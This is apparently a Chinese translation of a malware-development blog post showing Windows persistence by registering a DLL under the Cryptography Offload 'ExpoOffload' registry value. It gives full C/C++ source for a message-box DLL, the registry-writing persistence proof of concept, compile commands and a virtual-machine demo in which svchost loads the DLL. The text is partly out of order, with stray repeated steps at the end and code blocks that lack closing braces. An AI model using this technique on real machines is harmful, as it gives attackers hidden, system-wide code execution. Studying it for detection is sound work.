\newpage
\subsection{恶意软件开发：持久化（第 16 部分）——加密注册表项（简单的 C++ 示例）}

﷽

{width="80%"}

这篇文章是我自己对一个有趣的恶意软件持久化技巧的研究结果：通过加密注册表项（Cryptography Registry Key）实现持久化。

在研究注册表的过程中，我偶然发现了一个有趣的路径：

其中有一个名为 `OffloadModExpo` 的函数。

如果我没理解错的话，这个函数用于为公钥和私钥操作执行所有的模幂运算：

{width="80%"}

我没有深入太多细节，对我来说，能够在 Windows 注册表中对这个项和值进行实验的机会就已经足够了。

以及它的项值。

### 实战示例

和往常一样，只是一个 meow-meow 消息框（`hack.c`）：

```cpp
/*
hack.c - malicious DLL
DLL hijacking Cryptography registry path
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID 
lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow-meow!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

编译它：

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

{width="80%"}

并创建用于劫持的概念验证代码（`pers.cpp`）：

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
  // set registry key value
  // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v 
  // "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
  RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)
  evil, strlen(evil));
  RegCloseKey(hkey);
  }

  return 0;

```

这就是我做实验所需要的全部内容。

### 演示

我们来看看一切的实际运行。

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

然后，为了保证实验的纯粹性，检查受害者机器上的注册表项，如果存在就删除它们：

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

{width="80%"}

然后，运行我们的 `pers.exe` 脚本并再次检查：

{width="80%"}

例如，我会尝试在浏览器中打开一个 `https:` 链接，或者使用搜索栏。

{width="80%"}

在后台执行一些加密操作的过程中，我们会看到越来越多的弹窗。

{width="80%"}

{width="80%"}

{width="80%"}

而且我甚至无法启动 Process Hacker 2 来调查情况。

{width="80%"}

然后，我恢复了我的虚拟机快照，用以下过滤器运行 Sysinternals Procmon：

{width="80%"}

{width="80%"}

结果如下：

{width="80%"}

{width="80%"}

如你所见，在某个阶段，我的「恶意」meow-meow DLL 被 `svchost.exe`、`ProcessHacker.exe` 以及其他进程加载了。

所以，一切运行正确。

完美！=..=

{width="80%"}

实验结束后，恢复我的注册表状态：

我不知道野外是否有任何 APT 使用过这种战术和技巧，但我希望这篇文章能让蓝队成员了解这个有趣的技巧（尤其是在开发软件时），并为红队成员的武器库增添一件武器。

因此，我尝试劫持这个 DLL 路径：

首先，和往常一样，创建「恶意」DLL。

编译我们的概念验证代码：

现在我来尝试运行一些东西。
